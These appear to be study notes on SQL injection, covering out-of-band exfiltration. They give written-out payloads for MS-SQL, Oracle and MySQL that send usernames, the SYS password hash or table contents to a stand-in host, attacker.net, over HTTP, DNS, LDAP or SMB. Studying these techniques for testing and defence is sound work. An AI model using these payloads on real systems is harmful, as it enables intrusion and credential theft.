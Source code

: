  In a variation on this situation, the authors have encountered cases in which what is returned by the application is not an actual number, but a resource for which that number is an identifi er. The application performs a SQL query based on user input, obtains a numeric identifier for a document, and then returns the document’s contents to the user. In this situation, an attacker can first obtain a copy of every document whose identifiers are within the relevant numeric range and construct a mapping of document contents to identifi ers. Then, when performing the attack described previously, the attacker can consult this map to determine the identifier for each document received from the application and thereby retrieve the ASCII value of the character has successfully extracted.

## Using an Out-Of-band Channel
- sometimes application doesn't return any output of injected query, nor return any error message generated by DB, 
- creating OUT-of-band channel for Data Exfilteration ,so that database connect back to us with desired data , but this process varies Database TO database
- we can see documentation for specific data base to see how it connect to the remote location

### MS-SQL
  - insert into openrowset('SQLOLEDB','DRIVER={SQL server};SERVER=attacker.net,80; UID=sa;Pwd=hacked','select \* from foo') values(@@version)
### Oracle
  - Oracle contains Large amount of default functionality that is accessible 
  - `UTL_HTTP` package can be used to make HTTP Requests to Other hosts, it have functionality and supports `proxy server, cookies, redirects and Authentication` 
  - eg
  ```bash
  /employee.jsp?EmpNo=1337'||UTL_HTTP.request('attacker.net:80/'||(SELECT%20usernames%20FROM%20all_users%20Where%20ROWNUM%3d1)) -- 
  ```
  it make GET request for URL Containing first username in the table all_users 
  attacker simply open listener to accept request and data
  - `UTL_INADDR` package is designed to be used to resolve hostnames to IP addr, it can be used to generate arbitrary DNS queries to a server Controlled by Attacker, we use Burp Collaborator, and Also DNS lookup bypass restriction of Firewall easily, even if HTTP traffic is Restricted
  - eg.
  ```bash
  /employee.jsp?EmpNo=1337'||UTL_INADDR.GET_HOST_NAME((SELECT%20PASSWORD%20FROM%20DB_USERS%20WHERE%20NAME='SYS')||'.attacker.net')
  ```
  - this result in DNSquery to the `attacker.net` name server containing the 'SYS' password hash as subdomain.
  - **NOTE:** in oracle Additional ACL protects many of the resource execution by arbitrary  database user, to bypass restriction we use new functionality provided by oracle
  ```bash
  SYS.DBMS_LDAP.INIT((SELECT PASSWORD FROM SYS.USER$ WHERE NAME='SYS')||'.attacker.net',80)
  ```
  
  ### My SQL
   - SELECT .... INTO OUTFILE command can be used to direct output from arbitrary query into file
   ```bash
SELECT * into outfilr '\\\\attacker.net\\share\\output.txt' from users;
```
to receive file we need to open SMB share on computer that allows anonymous write access,
